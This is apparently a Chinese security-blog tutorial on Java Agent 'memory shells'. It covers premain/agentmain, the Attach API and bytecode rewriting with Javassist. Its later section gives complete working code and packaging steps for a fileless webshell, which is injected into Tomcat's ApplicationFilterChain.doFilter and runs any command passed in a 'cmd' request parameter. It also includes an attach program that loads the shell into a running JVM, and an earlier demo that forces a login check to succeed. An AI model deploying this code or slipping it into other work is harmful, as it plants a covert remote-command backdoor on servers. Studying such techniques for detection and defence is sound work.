## 前言
前面学了Filter型，Listen型内存马的基本行为分析，了解了内存马是怎么进行注入的！除此之外还有一种形式的内存马，Agent类型，关于Java Agent，主要是因为在jdk1.5后引入了一个包：`java.lang.instrument`

主要功能是提供了对Java程序进行检查的API，像监控，收集性能信息等。通过这个包去实现的一些工具就被称为Java Agent。直接一点说，它可以当作内存马的其中一种类型是依靠它的这个功能：它可以在不影响Java程序正常编译的情况下对字节码进行修改，也就是动态修改。所以才可以使用它来进行内存马的注入。

## Java Agent注入
Java Agent的两种使用方式分别是`premain`(在启动Java虚拟机之前进行插入修改等操作)和`agentmain`(在Java虚拟机启动之后进行修改插入等操作)
### premain
JVM启动前，会先执行premain方法，很多的类加载也是依靠这个方法，在执行main方法前会先执行premian中的加载活动。所以一般思路都是在premain中进行一些操作去插入或修改恶意类，在执行时加载进去，实现恶意类加载。
画图理解

在执行Java程序的时候，比如使用命令行执行，那么就会涉及到一些参数，比如`-jar`这种，`-javaagent`也跟`-jar`一样，也是一个参数，在执行程序时如果存在这个参数，那么就会在执行main方法前，去找这个参数后面跟的值，也就是一个jar文件，如果可以找到那么，就执行它里面的premain方法，如果没有找到，可能会报错。下面操作一下看效果。
首先创建一个存在main方法的类，只实现了一行打印。并将这个类打包，单个类打包的方法可以百度下，也可以参考我写的（防止忘记，记录一遍）[https://www.yuque.com/m0re/demosec/sr2n6h#xuZxL](https://www.yuque.com/m0re/demosec/sr2n6h#xuZxL)
然后写premain方法，需要注意的是，使用一个空项目来写。不要跟刚才的类同存于一个项目。
从本质上讲，Java Agent 是一个遵循一组严格约定的常规 Java 类。 上面说到 `javaagent`命令要求指定的类中必须要有`premain()`方法，并且对`premain`方法的签名也有要求，签名必须满足以下两种格式：

```java
public static void premain(String agentArgs, Instrumentation inst)		
    
public static void premain(String agentArgs)
```
可以看到这两个方法不同的是参数的个数不同，第一个方法的优先级比较高，它是被优先执行的那个，如果他们两个同时存在，那么第二个方法会被忽略，只执行第一个方法。
测试代码如下：
```java
package com.sf.premain;

import java.lang.instrument.Instrumentation;

public class PreHello1 {
    public static void premain(String args, Instrumentation inst) throws Exception{
        for (int i = 0; i < 10; i++){
            System.out.println("调用premain");
        }
    }
}

```
因为没有main方法，所以在打包时与平常的方式不太一样。
这里需要自己写MANIFEST.MF
```java
Manifest-Version: 1.0
Premain-Class: com.sf.premain.PreHello1

```
注意这种文件类型的格式
```java
Premain-Class ：包含 premain 方法的类（类的全路径名）
Agent-Class ：包含 agentmain 方法的类（类的全路径名）
Boot-Class-Path ：设置引导类加载器搜索的路径列表。查找类的特定于平台的机制失败后，引导类加载器会搜索这些路径。按列出的顺序搜索路径。列表中的路径由一个或多个空格分开。路径使用分层 URI 的路径组件语法。如果该路径以斜杠字符（“/”）开头，则为绝对路径，否则为相对路径。相对路径根据代理 JAR 文件的绝对路径解析。忽略格式不正确的路径和不存在的路径。如果代理是在 VM 启动之后某一时刻启动的，则忽略不表示 JAR 文件的路径。（可选）
Can-Redefine-Classes ：true表示能重定义此代理所需的类，默认值为 false（可选）
Can-Retransform-Classes ：true 表示能重转换此代理所需的类，默认值为 false （可选）
Can-Set-Native-Method-Prefix： true表示能设置此代理所需的本机方法前缀，默认值为 false（可选）
```
打包方法是，这里选择变了。
然后Mainfest File选择刚才自定义的文件即可。
最后按照正常步骤去打包就可以了
打包完成，找到jar包进行测试。结果也没问题。在执行main方法前执行了premain方法。
然而实际情况是，目标环境中的JVM一般都是正在使用（运行中)的状态，无法使用这种方式去预加载。

### agentmain
agentmain和premain类似，只需要修改MANIFEST.MF，添加一行Agent-Class参数。这里mainfest后面详细介绍，这里先不说。
```java
Manifest-Version: 1.0
Premain-Class: com.sf.premain.PreHello1
Agent-Class: com.sf.agentmain.AgentHello1;

```
注意最后空行不能少，agentmain的执行图如下
agentmain-Agent实现的则是在JVM启动后进行加载，从而修改字节码。`注意:`在项目中没有自动加载tools这个工具包，需要手动导入。
导入方式：直接在配置中进行导入
还可以在pom.xml中进行导入，这个需要tools的绝对路径，在项目迁移的时候需要更改。不过这两种 都一样。使用哪一种都可以。
下面了解下tools包中的使用到的类，位置在`com.sun.tools.attach.VirtualMachine`主要使用到下面几个方法

```java
//允许我们传入一个JVM的PID，然后远程连接到该JVM上
VirtualMachine.attach()

//向JVM注册一个代理程序agent，在该agent的代理程序中会得到一个Instrumentation实例，该实例可以 在class加载前改变class的字节码，也可以在class加载后重新加载。在调用Instrumentation实例的方法时，这些方法会使用ClassFileTransformer接口中提供的方法进行处理
VirtualMachine.loadAgent()

//获得当前所有的JVM列表
VirtualMachine.list()

//解除与特定JVM的连接
VirtualMachine.detach()
```
另一个类：`com.sun.tools.attach.VirtualMachineDescriptor`， `VirtualMachineDescriptor`是用于描述 Java 虚拟机的容器类。它封装了一个标识目标虚拟机的标识符，以及一个`AttachProvider`在尝试连接到虚拟机时应该使用的引用。标识符依赖于实现，但通常是进程标识符（或 pid）环境，其中每个 Java 虚拟机在其自己的操作系统进程中运行。
这里根据实际环境重新写一个main

```java
package com.sf;

public class Hello1 {
    public static void main(String[] args) throws InterruptedException {
        while (true){
            System.out.println("hello");
            Thread.sleep(1000);
        }
    }
}
```
运行起来，保证持续运行模拟一个正在运行的服务，可以使用命令`jps -l`来查看Java虚拟机跑起来的PID。
然后编写agentmain：（author：[https://exp10it.cn/](https://exp10it.cn/))

```java
package com.sf.agentmain;

import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;

import java.io.File;
import java.lang.instrument.Instrumentation;
import java.util.List;

public class AgentHello1 {
    public static void agentmain(String args, Instrumentation inst) throws Exception {
        System.out.println("agentmain");
    }

    public static void main(String[] args) throws Exception{
        List<VirtualMachineDescriptor> list = VirtualMachine.list(); // 得到 JVM 进程列表
        for (VirtualMachineDescriptor desc : list){ // 遍历
            String name = desc.displayName(); // 进程名
            String pid = desc.id(); // PID

            if (name.contains("com.sf.Hello1")){
                VirtualMachine vm = VirtualMachine.attach(pid);
                String path = new File("D:\\Test\\Agent\\Agentmain.jar").getAbsolutePath();
                vm.loadAgent(path);
                vm.detach();
                System.out.println("attach ok");
                break;
            }
        }
    }
}
```
说下这个大概情况，在main方法中第一段代码的功能是跟`jps -l`这条命令差不多，得到所有的JVM的PID，然后使用`contains`方法找到我们想要注入的那个进程。然后利用loadAgent方法进行注册一个代理agent。
可以先运行一次，得到一个`.class`字节码文件。然后使用命令行进行打包
```java
jar cvfm Agentmain.jar MANIFEST.MF AgentHello1.class
```
说明：MANIFEST.MF文件中内容
```java
Manifest-Version: 1.0
Premain-Class: com.sf.premain.PreHello1
Agent-Class: com.sf.agentmain.AgentHello1

```
 Premain-Class去掉不去掉无所谓的，优先级是Agent-Class高的。
Agentmain.jar的名字没有规定的。
打包好之后就可以在执行时指定File路径，重新执行就可以注入了。FIle真实存在，注入成功。
结果可以在运行的程序中看到。


### Instrumentation 动态修改字节码
`Instrumentation`是`JVMTIAgent`（`JVM Tool Interface Agent`）的一部分。`Java agent`通过这个类和目标JVM进行交互，从而达到修改数据的效果。
在 `Instrumentation` 中增加了名叫 `transformer` 的 Class 文件转换器，转换器可以改变二进制流的数据
`Transformer` 可以对未加载的类进行拦截，同时可对已加载的类进行重新拦截，所以根据这个特性我们能够实现动态修改字节码
这个是一个接口类，里面有15个方法
这里挑出4个来看一下。分别是：addTransformer，getAllLoadedClasses，retransformClasses，isModifiableClasses
`addTransformer` 方法来用于注册 `Transformer`，所以我们可以通过编写 `ClassFileTransformer` 接口的实现类来注册我们自己的转换器
`getAllLoadedClasses` 方法能列出所有已加载的 Class，我们可以通过遍历 Class 数组来寻找我们需要重定义的 class
`retransformClasses` 方法能对已加载的 class 进行重新定义，也就是说如果我们的目标类已经被加载的话，我们可以调用该函数，来重新触发这个`Transformer`的拦截，以此达到对已加载的类进行字节码修改的效果
`isModifiableClasses`方法可以判断某个类是否能被修改。

### ClassFileTransformer
观察Instrumentation接口类的几个方法可以看到有一个出现次数比较多的类ClassFileTransformer，其实这个类的作用就是在拦截未加载或已加载的类时进行修改。
```java
public interface ClassFileTransformer {
    byte[]
    transform(  ClassLoader         loader,
                String              className,
                Class<?>            classBeingRedefined,
                ProtectionDomain    protectionDomain,
                byte[]              classfileBuffer)
        throws IllegalClassFormatException;
}
```
例如：在每次加载类的时候都会调用transform方法
```java
public class DefineTransformer implements ClassFileTransformer {
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        System.out.println(className);
        return new byte[0];
    }
}
```
修改或增加的内容可以在transform方法中编写。这里是打印了一下className。修改字节码的操作是在这里的。
classfileBuffer 是原始的 class 字节码, 如果我们不想修改某个 class 就需要把这个变量原样返回。其他的用不到的就不做了解了。
代码测试部分：一个运行的程序
```java
package com.sf;

public class Hello1 {
    public static String username = "admin";
    public static String password = "password";

    public static boolean checkLogin(){
        if (username == "admin" && password == "admin"){
            return true;
        } else {
            return false;
        }
    }
    public static void main(String[] args) throws Exception{
        while(true){
            if (checkLogin()){
                System.out.println("login success");
            } else {
                System.out.println("login failed");
            }
            Thread.sleep(1000);
        }
    }
}
```
agent编写，解释写在注释中，不解释了。
```java
package com.sf.agentmain;

import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;
import javassist.*;
import java.io.File;
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;
import java.util.List;

public class AgentHello1 {
    public static void agentmain(String args, Instrumentation inst) throws Exception {
        for (Class clazz : inst.getAllLoadedClasses()){//获取所有已加载的class
            if (clazz.getName().equals("com.sf.Hello1")){//找到要注入的class
                inst.addTransformer(new TransformerTest(), true);//添加transformer
                inst.retransformClasses(clazz); //重新加载这个clazz
            }
        }
    }

    public static void main(String[] args) throws Exception{
        List<VirtualMachineDescriptor> list = VirtualMachine.list(); // 得到 JVM 进程列表
        for (VirtualMachineDescriptor desc : list){ // 遍历
            String name = desc.displayName(); // 进程名
            String pid = desc.id(); // PID

            if (name.contains("com.sf.Hello1")){
                VirtualMachine vm = VirtualMachine.attach(pid);
                String path = new File("D:\\Test\\Agent\\Agentmain.jar").getAbsolutePath();
                vm.loadAgent(path);
                vm.detach();
                System.out.println("attach ok");
                break;
            }
        }
    }
}
class TransformerTest implements ClassFileTransformer {
    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        if (className.equals("com.sf.Hello1")){//transformer会拦截所有class，所以这里要先确认一下className是不是正确的
            try{
                ClassPool classPool = ClassPool.getDefault();
                CtClass ctClass = classPool.get("com.sf.Hello1");
                CtMethod ctMethod = ctClass.getDeclaredMethod("checkLogin");
                ctMethod.setBody("{System.out.println(\"inject success\"); return true;}");//更改的代码
                byte[] code = ctClass.toBytecode();
                ctClass.detach();
                return code;
            } catch (Exception e) {
                e.printStackTrace();
                return classfileBuffer;//如果没有修改，返回classfileBuffer原型就可以
            }
        }else {
            return classfileBuffer;
        }
    }
}
```
注意：javassist需要手动通过pom导入（或其他方式导入）
然后还需要对 MANIFEST.MF进行修改。不加这两条配置会报错。
```java
Can-Retransform-Classes 是否支持类的重新替换
Can-Redefine-Classes 是否支持类的重新定义
```
```java
Manifest-Version: 1.0
Agent-Class: com.sf.AgentHello1
Can-Redefine-Classes: true
Can-Retransform-Classes: true

```
看下结果


#### 报错问题解决整理
F:  Agent JAR loaded but agent failed to initialize
Q: 检查一下MANIFEST.MF中的Agent-Class是不是填错了（我的是这个问题）
F：java -cp 找不到或无法加载主类
Q：这个不是大问题，是环境变量的问题，我这边选择替换，不使用命令行来进行执行。而是直接在idea中执行。不过后面注入内存马的时候就要看实际环境了。
后面还有我写在发生问题的位置了。一些报错的问题可以查看，差不多遇到的就是这几种：[https://blog.z3ratu1.cn/Java%20Agent%E7%AE%80%E6%98%93%E5%85%A5%E9%97%A8.html](https://blog.z3ratu1.cn/Java%20Agent%E7%AE%80%E6%98%93%E5%85%A5%E9%97%A8.html)
## Agent内存马注入
### 命令注入内存马
网上的文章看了很多，大部分的师傅都是对org.apache.catalina.core.ApplicationFilterChain#doFilter进行修改。这里也利用这个。对doFilter进行修改。之前的Filter内存马的逻辑也学过的
项目代码：[https://github.com/KpLi0rn/AgentMemShell](https://github.com/KpLi0rn/AgentMemShell)，源码解读也就跟上面的修改字节码没什么区别，就是修改的内容变成了木马而已，代码中加了注释。
第一步，获取agent.jar
```java
import java.lang.instrument.Instrumentation;

public class AgentMain {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        System.out.println("running..................................");
        //注册我们自定义的转换器transformer
        ins.addTransformer(new DefineTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}
```
注册我们自己的transformer，代码看着多，其实就是一个逻辑，注释又写了一遍加深印象。
```java
package com.sf;

import javassist.*;
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;


public class DefineTransformer implements ClassFileTransformer {

    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        /*
        * 因为className的形式是com.xx.xx，所以这里是要将它换成com/xx/xx形式
        * */
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            try {
                CtClass c = pool.getCtClass(className);
                //修改doFilter这个方法
                CtMethod m = c.getDeclaredMethod("doFilter");
                //在不改变doFilter方法原来的字节码的前提下，在原有代码前插入以下字节码
                m.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
                return classfileBuffer;
            }
        }else {
         return classfileBuffer;
        }
    }
}
```
打包使用`mvn assembly:assembly`一开始可能会报错，我这里报错的是：
```java
 Error reading assemblies: No assembly descriptors found.
```
在pom文件中添加下面的部分，添加的内容解释下：首先是mainfest的信息，然后就是maven-assembly-plugin这个插件，是为了可以成功打包而添加的插件。记得添加配置文件路径`src/main/resources/assembly.xml`
```java
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-assembly-plugin</artifactId>
    <configuration>
    <!-- get all project dependencies -->
        <descriptorRefs>
            <descriptorRef>jar-with-dependencies</descriptorRef>
        </descriptorRefs>

    <!-- MainClass in mainfest make a executable jar -->
        <archive>
    		<manifestEntries>
                <Project-name>${project.name}</Project-name>
            	<Project-version>${project.version}</Project-version>
            	<Agent-Class>AgentMain</Agent-Class>
                <Can-Redefine-Classes>true</Can-Redefine-Classes>
            	<Can-Retransform-Classes>true</Can-Retransform-Classes>
        	</manifestEntries>
    	</archive>
    </configuration>
    <executions>
    <!-- bind to the packaging phase -->
        <execution>
            <id>make-assembly</id>
            <phase>package</phase>
    		<goals>
                <goal>single</goal>
            </goals>
        </execution>
    </executions>
</plugin>
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-assembly-plugin</artifactId>
    <configuration>
        <descriptors>
            <descriptor>src/main/resources/assembly.xml</descriptor>
        </descriptors>
	</configuration>
</plugin>
```
然后在resources文件夹下创建assembly.xml文件并添加以下内容。
```java
<assembly xmlns="http://maven.apache.org/ASSEMBLY/2.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/ASSEMBLY/2.0.0
                              http://maven.apache.org/xsd/assembly-2.0.0.xsd">

    <id>jar-with-dependencies</id>

    <!--指明打包方式-->
    <formats>
        <format>jar</format>
    </formats>

    <includeBaseDirectory>false</includeBaseDirectory>
    <dependencySets>
        <dependencySet>
            <outputDirectory>/</outputDirectory>
            <useProjectArtifact>true</useProjectArtifact>
            <unpack>true</unpack>
            <scope>runtime</scope>
            <!--这里以排除 storm 环境中已经提供的 storm-core 为例，演示排除 Jar 包-->
            <excludes>
                <exclude>org.apache.storm:storm-core</exclude>
            </excludes>
        </dependencySet>
    </dependencySets>
</assembly>
```
然后先执行下mvn clean清理下之前的历史残留缓存文件。
再去重新执行命令打包就可以成功。
成功打包后修改下MANIFEST.MF文件

```java
Manifest-Version: 1.0
Can-Redefine-Classes: true
Can-Retransform-Classes: true
Agent-Class: AgentMain

```
修改再压缩就可以，然后执行注入就可以了
```java
package com.sf;

import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;
import java.io.File;
import java.util.List;
public class AgentMain {
        public static void main(String[] args) throws Exception{
            List<VirtualMachineDescriptor> list = VirtualMachine.list(); // 得到 JVM 进程列表
            for (VirtualMachineDescriptor desc : list){ // 遍历
                String name = desc.displayName(); // 进程名
                String pid = desc.id(); // PID

                if (name.contains("com.sf.agent.AgentApplication")){
                    VirtualMachine vm = VirtualMachine.attach(pid);
                    String path = new File("D:\\Test\\Agent\\Agentmain.jar").getAbsolutePath();
                    vm.loadAgent(path);
                    vm.detach();
                    System.out.println("attach ok");
                    break;
                }
            }
        }
    }
}
```
结果如下：


### 反序列化注入内存马
